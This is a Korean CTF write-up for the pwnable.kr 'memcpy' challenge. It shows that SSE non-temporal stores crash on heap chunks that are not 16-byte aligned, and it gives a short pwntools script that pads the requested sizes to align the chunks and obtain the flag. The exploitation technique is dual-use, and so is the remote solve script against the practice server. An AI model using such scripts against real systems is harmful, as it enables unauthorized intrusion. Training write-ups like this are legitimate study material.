 # [pwnable.kr] memcpy

> Are you tired of hacking?, take some rest here.
> Just help me out with my small experiment regarding memcpy performance. 
> after that, flag is yours.
>
> http://pwnable.kr/bin/memcpy.c
>
> ssh memcpy@pwnable.kr -p2222 (pw:guest)

## Analysis

```c
/* memcpy.c */

char* fast_memcpy(char* dest, const char* src, size_t len){
    size_t i;
    // 64-byte block fast copy
    if(len >= 64){
        i = len / 64;
        len &= (64-1);
        while(i-- > 0){
            __asm__ __volatile__ (
            "movdqa (%0), %%xmm0\n"
            "movdqa 16(%0), %%xmm1\n"
            "movdqa 32(%0), %%xmm2\n"
            "movdqa 48(%0), %%xmm3\n"
            "movntps %%xmm0, (%1)\n"
            "movntps %%xmm1, 16(%1)\n"
            "movntps %%xmm2, 32(%1)\n"
            "movntps %%xmm3, 48(%1)\n"
            ::"r"(src),"r"(dest):"memory");
            dest += 64;
            src += 64;
        }
    }

    // byte-to-byte slow copy
    if(len) slow_memcpy(dest, src, len);
    return dest;
}
```

`fast_memcpy()`에서 `xmm` 레지스터를 통해서 데이터를 복사하기 때문에, `dest`가 `0x10`의 배수가 아닐 경우 segfault가 발생한다. 예를 들어,

![image](https://github.com/user-attachments/assets/87d101cb-3c0d-42b3-8791-8b51da872e75)

이렇게 입력하면,

![image](https://github.com/user-attachments/assets/7cb7b36b-3760-47f0-86fb-2d39db2c95cc)

5번째 루프에서 128바이트 데이터를 복사하다가 터지는데,

![image](https://github.com/user-attachments/assets/ecf2587d-352a-4ba6-a79a-2c7d5e465d0b)

`dest`가 `0x10`의 배수로 align이 되지 않았기 때문이다.

바로 앞의 buffer의 size를 8만큼 크게 줘서 뒤쪽 chunk들이 8바이트씩 뒤로 밀리도록 하면 정상적으로 진행된다. 이 작업을 반복하면 10번째 루프까지 정상적으로 진행되고 플래그를 획득할 수 있다.

## Exploit

```python
# ex.py

from pwn import *

r = remote("pwnable.kr", 9022)

sla = r.sendlineafter

sla(b"8 ~ 16 : ", str(8).encode())
sla(b"16 ~ 32 : ", str(16).encode())
sla(b"32 ~ 64 : ", str(32).encode())
sla(b"64 ~ 128 : ", str(64 + 8).encode())
sla(b"128 ~ 256 : ", str(128 + 8).encode())
sla(b"256 ~ 512 : ", str(256 + 8).encode())
sla(b"512 ~ 1024 : ", str(512 + 8).encode())
sla(b"1024 ~ 2048 : ", str(1024 + 8).encode())
sla(b"2048 ~ 4096 : ", str(2048 + 8).encode())
sla(b"4096 ~ 8192 : ", str(4096).encode())

r.interactive()
```

![image](https://github.com/user-attachments/assets/bad25124-04ec-4a61-951e-a931494c846a)

![image](https://github.com/user-attachments/assets/74cb5a39-19c4-4b2c-bc26-c38eb7b75397)
